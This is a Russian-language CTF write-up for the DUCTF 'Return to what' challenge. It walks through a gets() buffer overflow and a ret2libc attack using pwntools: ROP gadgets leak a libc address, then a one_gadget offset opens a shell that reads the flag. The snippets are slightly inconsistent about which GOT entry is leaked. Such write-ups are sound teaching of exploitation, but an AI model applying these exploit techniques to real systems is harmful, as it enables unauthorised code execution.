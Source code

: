 # Return to what (200 points, 149 solves)

> This will show my friends!
>
> nc chal.duc.tf 30003

*Дисклеймер:* это, пожалуй, самое базовое задание из этой категории, поэтому я постараюсь его нормально
описать, а в будущем буду ссылаться сюда.

В файлах находим [return-to-what](./return-to-what). Давайте откроем его в Ghidra. Нам повезло, в бинаре есть
символы, поэтому мы легко находим `main()`:
```c
undefined8 main(void)
{
  puts("Today, we\'ll have a lesson in returns.");
  vuln();
  return 0;
}
```

Ничего интересного, идём в `vuln()`:
```c 
void vuln(void)

{
  char local_38 [48]; 
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

Опа, сильно напоминает прошлое задание - [Shell this!](../Shell%20this!). Тут и та же проблема с `gets()`, и структура 
похожа. Вот только в списке функций нет той, которая бы нам shell дала. Что же делать, куда нам прыгать? Добро 
пожаловать в Ret2Libc.

Первый шаг у нас не меняется - надо найти оффсет. В прошлом write-up'е я это подробно описал. А вот дальше нужно найти
адрес, на которой нужно перейти. Для этого нужно сделать несколько вещей: "слить" адрес одной из "системных" функций, 
найти версию libc (для этого, возможно, потребуется слить больше одного адреса), найти базовый адрес libc, вызвать 
что-то типа `system("bin/sh")`. Как это всё делается? Давайте по порядку.

### Сливаем адрес(а)

Я думаю не должно быть секретом, что есть куча "стандартных" функций, которые находятся в libc. Например, мы можем
использовать `puts()`, но ведь не мы писали реализацию. Она живёт в libc (если мы говорим о динамической линковке).
Для того, чтобы разобраться с этой магией, необходимо познакомиться с GOT и PLT. В рамках write-up'а это делать
бессмысленно, лучше прочитать детальную статью. Например, [эту](https://itnan.ru/post.php?c=1&p=323904). Нам нужно 
узнать адреса функций из GOT таблицы. Pwntools умеет это делать, но ведь нам надо его как-то вывести на экран.
Давайте вызовем `puts()`. Выглядит это примерно так:
```python
def leak_libc(io, offset):
    r = ROP(e)
    puts = e.plt['puts']  # берём адрес puts(), чтобы её можно было вызвать
    pop_rdi = (r.find_gadget(['pop rdi', 'ret']))[0]  # вытаскиваем так называемый "гаджет", про него позже
    main = e.symbols['main']  # берём адрес main - мы туда ещё вернёмся

    gets_got = e.got['gets']  # этот адрес мы будем сливать, может быть любая функция, которую можете найти в бинаре

    p = offset * b'A' + p64(pop_rdi) + p64(gets_got) + p64(puts) + p64(main)  # читайте ниже

    print(io.recv())
    io.sendline(p)  # отправляем нашу строку
    data = io.recvline().strip().ljust(8, b'\x00')  # читаем ответ
    leak = u64(data)
    print('leaked address: ' + hex(leak))  # выводим адрес на экран
```

Самая главная строка - это:
```python
    p = offset * b'A' + p64(pop_rdi) + p64(puts_got) + p64(puts) + p64(main)
```

С оффсетом всё ясно - переполняем буфер. Гаджет `pop_rdi` нужен для того, чтобы положить какое-то значение в
регистр `rdi`. Зачем? А там хранится первый аргумент, вызываемой функции. Если для функции нужно больше аргументов, то 
нужно искать дополнительные гаджеты и класть значения в правильные регистры. Вот [тут](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI)
можно почитать подробнее. Но в нашем случае у `puts()` всего лишь 1 аргумент. Кладём мы туда адрес `gets_got` и вызываем
`puts()`. После этого, чтобы программа не закончила своё выполнение, мы возвращаемся в `main()` (или можно сразу в
`vuln()`). Дальше мы отправляем эту строку и получаем ответ.

А почему мы возвращаемся в `main()`? Разве нельзя дать программе остановиться, адрес-то мы получили, просто запустим
ещё раз? Тут не всё так просто. В реальности libc загружается в случайное место, т.е. абсолютные адреса постоянно 
меняются между запусками программы. Постоянны лишь относительные адреса функций относительно базового адреса libc и 3 
последних байта (т.к. у адреса libc последние три байта равны 000). Именно это позволяет найти точную
версию libc. Для этого достаточно вводить слитые адреса [здесь](https://libc.blukat.me). В принципе в этом случае
достаточно ввести адрес `puts` и выбрать ту версию libc, в которую входит `amd64`. Но если нет
уверенности, всегда можно слить дополнительные адреса. В этой задаче хватило `puts` и `__libc_start_main`, и мы получаем
`libc6_2.27-3ubuntu1_amd64`. С этого же сайта можно скачать файл.

### Вычисляем базовый адрес и получаем shell

Раз уж у нас есть libc, то мы можем взять адрес функции из него, сравнить с нашим слитым адресом и найти базовый адрес 
libc в конкретный запуск программы. После этого мы можем найти строку `"/bin/sh"`, адрес `system()` и вызвать её, как 
мы это делали раньше. Но я решил пойти по другому пути. Есть такая прикольная программка [one_gadget](https://github.com/david942j/one_gadget).
Она позволяет найти в libc 1 гаджет, который нам сразу даст shell. Использование простое:
```shell script
$ one_gadget libc6_2.27-3ubuntu1_amd64.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
``` 

Сразу скажу, что не стоит думать, что любой адрес из выведенных сработает. Более того, здесь сработал
второй - первый, к сожалению, приводил к крашу. Как же воспользоваться этим чудом? А всё очень просто:
```python
libc = ELF('libc6_2.27-3ubuntu1_amd64.so')
libc_base = leak - libc.symbols['puts']
p = offset * b'A' + p64(libc_base + 0x4f322)
print(io.recv())
io.sendline(p)
io.interactive()
```

Ну и результат запуска такой:
```shell script
$ ls
flag.txt return-to-what
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```

Поздравляю всех с вашим первым Ret2Libc! Ну и даже немного Return Orienting Programming зацепили. Полный код эксплоита
найдёте в файле [return-to-what.py](./return-to-what.py).
